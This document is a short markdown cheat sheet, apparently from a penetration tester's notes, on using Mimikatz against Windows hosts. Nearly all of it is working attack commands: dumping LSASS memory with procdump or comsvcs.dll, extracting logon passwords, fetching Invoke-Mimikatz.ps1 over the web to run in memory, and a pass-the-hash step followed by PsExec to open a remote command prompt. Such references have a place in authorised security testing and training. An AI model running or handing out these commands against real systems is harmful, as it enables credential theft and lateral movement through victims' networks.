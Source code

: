 ```yaml
---
layout: default
title: Mimikatz
tags:
    - certificates private keys
    - credentials
    - in memory
    - kerberos tickets
    - local security authority subsystem service
    - LSASS
    - pass-the-hash
    - passwords
    - procdump
    - windows
---
```

# Mimikatz
## Offline
### Dump LSASS
```powershell
procdump.exe -ma lsass.exe <output path>  # use -r flag to avoid reading lsass by dumping a clone
.\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 624 <output path> full  # uses native comsvcs.dll
```
- Alternatively can use task manager (Processes > lsass.exe > Create Dump File)

### Extracting Passwords
```shell
sekurlsa::minidump <dump path>
sekurlsa::logonpasswords
```

## On Target Machine
### PowerShell Version ([Invoke-Mimikatz.ps1](https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1))
In-memory
```powershell
Invoke-WebRequest -UseBasicParsing <url> -Verbose
```

Save to disk
```powershell
Invoke-WebRequest -UseBasicParsing <url> -OutFile Invoke-Mimikatz.ps1 -Verbose
```

```powershell
Get-Help Invoke-Mimikatz
.\Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -ComputerName
```

### Extracting Passwords
```shell
privilege:debug
sekurlsa::logonPasswords
```

### Pass-the-Hash
```powershell
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm hash>  # Hash from previous password extraction
PsExec.exe \\<domain> cmd.exe  # Spawn cmd prompt on given domain
```